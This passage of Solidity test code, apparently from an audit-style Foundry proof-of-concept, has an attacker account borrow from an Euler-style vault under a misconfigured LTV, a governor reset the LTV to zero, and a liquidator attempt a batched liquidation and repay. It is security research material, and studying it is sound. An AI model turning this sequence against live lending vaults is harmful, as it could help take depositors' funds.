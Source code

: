 ```solidity
        vm.startPrank(attacker);
        USDC.approve(address(eUSDC), type(uint256).max);
        eUSDC.approve(address(eeUSDC), type(uint256).max);
        vm.stopPrank();
        
        // Enable controllers and collateral
        vm.startPrank(attacker);
        evc.enableController(attacker, address(eeUSDC));
        evc.enableCollateral(attacker, address(eUSDC));
        vm.stopPrank();

        vm.startPrank(attacker);
        console.log("--- Balances before borrow ---");
        logAccountBalances("this", address(this));
        logAccountBalances("attacker", attacker);
        uint256 amt = eUSDC.balanceOf(attacker);
        
        if (LTV < 1e4) {
            uint256 borrowAmt = amt * LTV / (1e4 - LTV + 1) / 4;
            eeUSDC.borrow(borrowAmt, attacker);
        } else {
            eeUSDC.borrow(INIT_VAULT_USDC_BAL, attacker);
        }
        
        console.log("--- Balances after borrow ---");
        logAccountBalances("attacker", attacker);
        vm.stopPrank();
        
        console.log("--- Governor notices mistake and fixes it ---");
        eeUSDC.setLTV(address(eUSDC), 0, 0, 0);
        logAccountBalances("attacker (after LTV set to zero)", attacker);
        (uint256 maxRepay, uint256 maxYield) = eeUSDC.checkLiquidation(liquidator, attacker, address(eUSDC));
        console.log("liquidation params: maxRepay = %s , maxYield = %s", maxRepay.pretty(), maxYield.pretty());
        
        vm.startPrank(liquidator);
        eUSDC.approve(address(eeUSDC), type(uint256).max);
        evc.enableController(liquidator, address(eeUSDC));
        console.log("Attempt liquidation");
        
        IEVC.BatchItem[] memory items = new IEVC.BatchItem[](2);
        items[0] = IEVC.BatchItem({
            onBehalfOfAccount: liquidator,
            targetContract: address(eeUSDC),
            value: 0,
            data: abi.encodeCall(eeUSDC.liquidate, (attacker, address(eUSDC), type(uint256).max, 0))
        });
        items[1] = IEVC.BatchItem({
            onBehalfOfAccount: liquidator,
            targetContract: address(eeUSDC),
            value: 0,
            data: abi.encodeCall(eeUSDC.repay, (type(uint256).max, liquidator))
        });
        evc.batch(items);
        
        logAccountBalances("attacker", attacker);
        logAccountBalances("liquidator", liquidator);
        vm.stopPrank();
    }

    function logAccountBalances(string memory s, address account) internal {
```